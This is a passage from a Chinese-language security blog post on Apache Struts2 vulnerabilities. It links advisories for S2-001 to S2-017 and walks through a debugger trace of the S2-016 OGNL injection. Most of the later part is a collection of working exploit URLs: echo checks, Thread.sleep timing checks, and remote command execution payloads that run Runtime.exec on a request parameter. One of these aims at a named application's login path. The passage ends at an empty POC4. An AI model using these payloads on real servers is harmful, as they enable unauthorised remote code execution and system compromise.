16、A vulnerability introduced by manipulating parameters prefixed with "action:"/"redirect:"/"redirectAction:" allows remote command execution： [`struts.apache.org/release/2.3.x/docs/s2-016.html`](http://struts.apache.org/release/2.3.x/docs/s2-016.html)

18：A vulnerability introduced by manipulating parameters prefixed with "redirect:"/"redirectAction:" allows for open redirects： [`struts.apache.org/release/2.3.x/docs/s2-017.html`](http://struts.apache.org/release/2.3.x/docs/s2-017.html)

#### **Struts2 漏洞利用详情：**

S2-001-S2-004：[`www.inbreak.net/archives/161`](http://www.inbreak.net/archives/161)

S2-005：[`www.venustech.com.cn/NewsInfo/124/2802.Html`](http://www.venustech.com.cn/NewsInfo/124/2802.Html)

S2-006：[`www.venustech.com.cn/NewsInfo/124/10155.Html`](http://www.venustech.com.cn/NewsInfo/124/10155.Html)

S2-007：[`www.inbreak.net/archives/363`](http://www.inbreak.net/archives/363)

S2-008：[`www.exploit-db.com/exploits/18329/`](http://www.exploit-db.com/exploits/18329/)

[`www.inbreak.net/archives/481`](http://www.inbreak.net/archives/481)

S2-009：[`www.venustech.com.cn/NewsInfo/124/12466.Html`](http://www.venustech.com.cn/NewsInfo/124/12466.Html)

S2-010：[`xforce.iss.net/xforce/xfdb/78182`](http://xforce.iss.net/xforce/xfdb/78182)

S2-011-S2-015:[`blog.csdn.net/wangyi_lin/article/details/9273903`](http://blog.csdn.net/wangyi_lin/article/details/9273903) [`www.inbreak.net/archives/487`](http://www.inbreak.net/archives/487) [`www.inbreak.net/archives/507`](http://www.inbreak.net/archives/507)

S2-016-S2-017：[`www.iteye.com/news/28053#comments`](http://www.iteye.com/news/28053#comments)

##### 吐槽一下：

从来没有见过一个框架如此多的漏洞一个连官方修补没怎么用心的框架既有如此多的拥护者。大学和很多的培训机构都把 SSH（Spring、Struts2、Hibernate）奉为 JavaEE 缺一不可的神话。在政府和大型企业中使用 JavaWeb 的项目中 SSH 架构体现的更是无处不在。刚开始找工作的出去面试基本上都问：SSH 会吗？我们只招本科毕业精通 SSH 框架的。“？什么？Struts2 不会？啥？还不是本科学历？很遗憾，**我们公司更希望跟研究过 SSH 代码精通 Struts MVC、Spring AOP DI OIC 和 Hibernate 的人合作，您先回去等通知吧……** ”。多么标准的面试失败的结束语，我只想说：我去年买了个表！

在 Struts2 如此“权威”、“专制”统治下终于有一个比 Struts2 更轻盈、更精巧、更安全的框架开始逐渐的威胁着 Struts 神一样的地位，It’s SpringMvc。

#### **Struts2 Debug：**

关于 Struts2 的漏洞分析网上已经铺天盖地了，因为一直做 SpringMvc 开发对 Struts2 并是怎么关注。不过有了上面的铺垫，分析下 Struts2 的逻辑并不难。这次就简单的跟一下 S2-016 的命令执行吧。

##### **Debug Tips：**

```
F5：进入方法
F6：单步执行
F7：从当前方法中跳出，继续往下执行。
F8：跳到下一个断点。
其他：F3：进入方法内、Ctrl+alt+h 查看当前方法在哪些地方有调用到。 
```

这里还得从上面的 Struts2 的 Filter 说起,忘记了的回头看上面的：Struts2 请求处理流程分析。

在 Struts2 项目启动的时候就也会去调用 Ognl 做初始化，启动后一切的 Struts2 的请求都会先经过 Struts2 的 StrutsPrepareAndExecuteFilter 过滤器（在早期的 Struts 里默认的是 FilterDispatcher）。并从其 doFilter 开始处理具体的请求，完成 Action 映射和请求分发。

在 Debug 之前需要有 Struts2 的 OGNL、Xwork 还有 Struts 的代码。其中的 xwork 和 Struts2 的源代码可以在 Struts2\struts-2.3.14\src 下找到。



Ognl 的源码在 opensymphony 的官方网站可以直接下载到。需要安装 SVN 客户端 checkout 下源码。

[`code.google.com/p/opensymphony-ognl-backup/source/checkout`](http://code.google.com/p/opensymphony-ognl-backup/source/checkout)

关联上源代码后可以在 web.xml 里面找到 StrutsPrepareAndExecuteFilter 哪行配置，直接 Ctrl+左键点进去（或者直接在 StrutsPrepareAndExecuteFilter 上按 F3 快速进入到这个类里面去）。在 StrutsPrepareAndExecuteFilter 的 77 行行标处双击下就可以断点了。



至于在 Eclipse 里面怎么去关联源代码就不多说了，按照 eclipse 提示找到源代码所在的路径就行了，实在不懂就百度一下。一个正常的 Action 请求一般情况下是不会报错的。如：[`localhost/StrutsDemo/test.action`](http://localhost/StrutsDemo/test.action)请求处理成功。在这样正常的请求中 Ognl 表达式找的是 location。而注入 Ognl 表达式之后：



doFilter 的前面几行代码在做初始化，而第 84 行就开始映射 action 了。而最新的 S2-016 就是因为不当的处理 action 映射导致 OGNL 注入执行任意代码的。F5 进入 PrepareOperations 的 findActionMapping 方法。在 findActionMapping 里面会去调用先去获取一个容器然后再去映射具体的 action。通过 Dispatcher 对象（org.apache.struts2.dispatcher）去获取 Container。通过 ActionMapper 的实现类：org.apache.struts2.dispatcher.mapper.DefaultActionMapper 调用 getMapping 方法，获取 mapping。



在 311 行的 handleSpecialParameters(request, mapping);F5 进入方法执行内部，这个方法在 DefaultActionMapper 类里边。



从请求当中获取我们提交的恶意 Ognl 代码：



handleSpecialParameters 方法调用 parameterAction.execute(key, mapping);：



F5 进入 parameterAction.execute：



执行完成之后的 mapping 可以看到 lication 已经注入了我们的 Ognl 表达式了：



当 mapping 映射完成后，会回到 DefaultActionMapper 调用上面处理后的 mapping 解析 ActionName。

```
return parseActionName(mapping) 
```

这里拿到的 name 自然是 test 了。因为我们访问的只是 test.action。不过在 Struts2 里面还可以用 test!show.action 即调用 test 内的 show 方法。

```
parseNameAndNamespace(uri, mapping, configManager);
handleSpecialParameters(request, mapping);
return parseActionName(mapping); 
```

parseActionName 执行完成后回到之前的 findActionMapping 方法。然后把我们的 mapping 放到请求作用域里边，而 mapping 对应的键是：struts.actionMapping。此便完成了 ActionMapping。那么 StrutsPrepareAndExecuteFilter 类的 doFilter 过滤器中的 84 行的 ActionMapping 也就完成了。

并不是说 action 映射完成后就已经执行了 Ognl 表达式了，而是在 StrutsPrepareAndExecuteFilter 类第 91 行的 execute.executeAction(request, response, mapping);执行完成后才会去执行我们的 Ognl。

executeAction 在 org.apache.struts2.dispatcher.ng 的 ExecuteOperations 类。这个方法如下：

```
/**
     * Executes an action
     * @throws ServletException
     */
    public void executeAction(HttpServletRequest request, HttpServletResponse response, ActionMapping mapping) throws ServletException {
        dispatcher.serviceAction(request, response, servletContext, mapping);
    } 
```

Dispatcher 应该是再熟悉不过了，因为刚才已经在 dispatcher 里面转悠了一圈回来。现在调用的是 dispatcher 的 serviceAction 方法。

`public void serviceAction`(参数在上面 executeAction 太长了就不写了)：



Excute 在`excuteorg.apache.struts2.dispatcher.ServletRedirectResult`类，具体方法如下：

```
public void execute(ActionInvocation invocation) throws Exception {
        if (anchor != null) {
            anchor = conditionalParse(anchor, invocation);
        }
        super.execute(invocation);
    }
    super.execute(org.apache.struts2.dispatcher.StrutsResultSupport) 
```

即执行其父类的 execute 方法。上面的 anchor 为空。



重点就在 translateVariables（翻译变量的时候把我们的 Ognl 执行了）：





```
Object result = parser.evaluate(openChars, expression, ognlEval, maxLoopCount);
    return conv.convertValue(stack.getContext(), result, asType); 
```

最终执行：



F8 放过页面输出[/ok]：



#### **解密 Struts2 的“神秘”的 POC：**

在 S2-016 出来之后 Struts2 以前的 POC 拿着也没什么用了，因为 S2-016 的威力已经大到让百度、企鹅、京东叫唤了。挑几个简单的具有代表性的讲下。在连续不断的看了这么多坑爹的概念以后不妨见识一下 Struts2 的常用 POC。

**回显 POC**(快速检测是否存在（有的 s2 版本无法输出）,看见输出[/ok]就表示存在)：

POC1:

```
http://127.0.0.1/Struts2/test.action?('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i2)(('\43xman.getWriter().println(%22[/ok]%22)')(d))&(i99)(('\43xman.getWriter().close()')(d)) 
```

POC2（类型转换漏洞需要把 POC 加在整型参数上）:

```
http://127.0.0.1/Struts2/test.action?id='%2b(%23_memberAccess[%22allowStaticMethodAccess%22]=true,@org.apache.struts2.ServletActionContext@getResponse().getWriter().println(%22[/ok]%22))%2b' 
```

POC3（需要注意这里也必须是加载一个 String(字符串类型)的参数后面，使用的时候把 URL 里面的两个 foo 替换成目标参数（注意 POC 里面还有个 foo））:

```
http://127.0.0.1/Struts2/hello.action?foo=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=%20new%20java.lang.Boolean(false),%23_memberAccess[%22allowStaticMethodAccess%22]=new%20java.lang.Boolean(true),@org.apache.struts2.ServletActionContext@getResponse().getWriter().println(%22[/ok]%22))&z[(foo)('meh')]=true 
```

POC4:

```
http://127.0.0.1/Struts2/hello.action?class.classLoader.jarPath=(%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d=+new+java.lang.Boolean(false),%23_memberAccess%5b%22allowStaticMethodAccess%22%5d=true,%23s3cur1ty=%40org.apache.struts2.ServletActionContext%40getResponse().getWriter(),%23s3cur1ty.println(%22[/ok]%22),%23s3cur1ty.close())(aa)&x[(class.classLoader.jarPath)('aa')] 
```

POC5:

```
http://127.0.0.1/Struts2/hello.action?a=1${%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23response=@org.apache.struts2.ServletActionContext@getResponse().getWriter().println(%22[/ok]%22),%23response.close()} 
```

POC6:

```
http://127.0.0.1/Struts2/$%7B%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23resp=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23resp.println(%22[ok]%22),%23resp.close()%7D.action 
```

POC7:

```
http://localhost/Struts2/test.action?redirect:${%23w%3d%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),%23w.println('[/ok]'),%23w.flush(),%23w.close()} 
```

**@org.apache.struts2.ServletActionContext@getResponse().getWriter().println(%22[/ok]%22)**其实是静态调用**ServletActionContext**上面已经讲过了 ServletActionContext 能够拿到真正的 HttpServletRequest、HttpServletResponse、ServletContext 忘记了的回头看去。**拿到一个 HttpServletResponse 响应对象后就可以调用 getWriter 方法(返回的是 PrintWriter)让 Servlet 容器上输出[/ok]了，而其他的 POC 也都做了同样的事：拿到 HttpServletResponse，然后输出[/ok]。**其中的 allowStaticMethodAccess 在 Struts2 里面默认是 false，也就是默认不允许静态方法调用。

#### **精确判断是否存在（延迟判断）:**

POC1:

```
http://127.0.0.1/Struts2/test.action?('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(d)(('@java.lang.Thread@sleep(5000)')(d)) 
```

POC2:

```
http://127.0.0.1/Struts2/test.action?id='%2b(%23_memberAccess[%22allowStaticMethodAccess%22]=true,@java.lang.Thread@sleep(5000))%2b' 
```

POC3:

```
http://127.0.0.1/Struts2/hello.action?foo=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,@java.lang.Thread@sleep(5000))(meh%29&z[%28foo%29%28%27meh%27%29]=true 
```

POC4：

```
http://127.0.0.1/Struts2/hello.action?class.classLoader.jarPath=(%23context%5b%22xwork.MethodAccessor.denyMethodExecution%22%5d%3d+new+java.lang.Boolean(false)%2c+%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c+%23a%3d%40java.lang.Thread@sleep(5000))(aa)&x[(class.classLoader.jarPath)('aa')] 
```

POC5：

```
http://127.0.0.1/Struts2/hello.action?a=1${%23_memberAccess[%22allowStaticMethodAccess%22]=true,@java.lang.Thread@sleep(5000)} 
```

POC6:

```
http://127.0.0.1/Struts2/${%23_memberAccess[%22allowStaticMethodAccess%22]=true,@java.lang.Thread@sleep(5000)}.action 
```

之前很多的利用工具都是让线程睡一段时间再去计算时间差来判断漏洞是否存在。这样比之前的回显更靠谱，缺点就是慢。而实现这个 POC 的方法同样是非常的简单其实就是静态调用 java.lang.Thread.sleep(5000)就行了。而命令执行原理也是一样的。

#### **命令执行：**

关于回显：webStr\75new\40byte[100] 修改为合适的长度。

POC1:

```
http://127.0.0.1/Struts2/test.action?('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43req\75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(h)(('\43webRootzpro\75@java.lang.Runtime@getRuntime().exec(\43req.getParameter(%22cmd%22))')(d))&(i)(('\43webRootzproreader\75new\40java.io.DataInputStream(\43webRootzpro.getInputStream())')(d))&(i01)(('\43webStr\75new\40byte[100]')(d))&(i1)(('\43webRootzproreader.readFully(\43webStr)')(d))&(i111)('\43webStr12\75new\40java.lang.String(\43webStr)')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i95)(('\43xman.getWriter().println(\43webStr12)')(d))&(i99)(('\43xman.getWriter().close()')(d))&cmd=cmd%20/c%20ipconfig 
```

POC2:

```
http://127.0.0.1/Struts2/test.action?id='%2b(%23_memberAccess[%22allowStaticMethodAccess%22]=true,%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23exec=@java.lang.Runtime@getRuntime().exec(%23req.getParameter(%22cmd%22)),%23iswinreader=new%20java.io.DataInputStream(%23exec.getInputStream()),%23buffer=new%20byte[100],%23iswinreader.readFully(%23buffer),%23result=new%20java.lang.String(%23buffer),%23response=@org.apache.struts2.ServletActionContext@getResponse(),%23response.getWriter().println(%23result))%2b'&cmd=cmd%20/c%20ipconfig 
```

POC3:

```
http://127.0.0.1/freecms/login_login.do?user.loginname=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=%20new%20java.lang.Boolean(false),%23_memberAccess[%22allowStaticMethodAccess%22]=new%20java.lang.Boolean(true),%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23exec=@java.lang.Runtime@getRuntime().exec(%23req.getParameter(%22cmd%22)),%23iswinreader=new%20java.io.DataInputStream(%23exec.getInputStream()),%23buffer=new%20byte[1000],%23iswinreader.readFully(%23buffer),%23result=new%20java.lang.String(%23buffer),%23response=@org.apache.struts2.ServletActionContext@getResponse(),%23response.getWriter().println(%23result))&z[(user.loginname)('meh')]=true&cmd=cmd%20/c%20set 
```

POC4:

```
